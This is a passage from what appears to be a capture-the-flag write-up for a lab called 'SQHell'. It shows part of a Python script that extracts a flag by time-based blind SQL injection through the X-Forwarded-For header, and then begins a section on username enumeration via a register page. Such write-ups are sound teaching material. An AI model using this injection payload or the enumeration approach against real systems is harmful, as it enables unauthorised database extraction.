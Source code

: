 ```highlight
        payload = f"1' AND (SELECT sleep(2) FROM flag where SUBSTR(flag,{counter},1) = '{i}') and '1'='1"
        headers = {'X-Forwarded-For':payload}
        start = time.time()
        r = requests.get(url, headers = headers)
        end = time.time()
        if end-start >= 2:
            flag += i
            counter += 1
            break
    print(flag)
    if len(flag) >= 43:
        exit(f"The Flag is: {flag}")
```

Running the script will retrieve the flag.

![flag2](/assets/images/sqhell/flag2.png)

### Flag 3
Looking at the register page of the blog, its possible to check if a username already exists.

![username](/assets/images/sqhell/username.png)
